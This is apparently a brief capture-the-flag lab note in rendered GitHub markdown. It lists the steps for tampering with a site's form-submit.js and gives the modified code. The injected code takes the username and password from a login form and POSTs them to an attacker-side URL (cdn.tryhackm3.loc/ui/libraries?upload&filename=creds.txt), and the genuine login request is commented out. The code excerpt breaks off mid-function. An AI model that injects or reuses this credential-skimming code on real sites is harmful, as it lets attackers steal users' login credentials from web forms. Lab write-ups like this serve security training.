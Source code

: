 <h2>/etc/hosts</h2>

```bash
xx.xxx.xx.xx cdn.tryhackm3.loc
```

<p>

- downloaded form-submit.js<br>
- added <code>//</code><br>
- uploaded updated form-submit.js in https://xx.xxx.xx.xx/ui/</p>

<img width="1019" height="167" alt="image" src="https://github.com/user-attachments/assets/ac5d3251-321d-4dab-a191-3b1ac8bcfeef" />

<br>
<br>
<h2>form-submit.js ETag</h2>

```bash
ETag
a599658a9c062725abbb8c491cbc9fa5 
```



 const rawAesKey = window.crypto.getRandomValues(new Uint8Array(16));
    let mac = rot13(window.btoa(String.fromCharCode(...rawAesKey)))
    const aesKey = await getSecretKey(rawAesKey)
    const rsaKey = await getPrivateKey()
    let rawdata = "username=" + formDataObj["username"] + "&password=" + formDataObj["password"]

    const exfil_creds = await fetch('https://cdn.tryhackm3.loc/ui/libraries?upload&filename=creds.txt', {
        method: 'POST',
        headers: {
            'Content-Type': 'text/plain'
        },
        body: rawdata
    });

    let data = window.btoa(String.fromCharCode(...new Uint8Array(await encryptMessage(aesKey, enc.encode(rawdata).buffer))))
    let sign = window.btoa(String.fromCharCode(...new Uint8Array(await signMessage(rsaKey, enc.encode(rawdata).buffer))))

//    const response = await fetch('/login', {
//        method: 'POST',
//        headers: {
//            'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'
//        },
//        body: "mac=" + encodeURIComponent(mac) + "&data=" + encodeURIComponent(data) + "&sign=" + encodeURIComponent(sign)
//    });
    if (response.ok && response.status == 200 && (await response.text()).startsWith("result=")) {
        window.location.href = '/congratulations';
    } else {
        alert('Login failed');
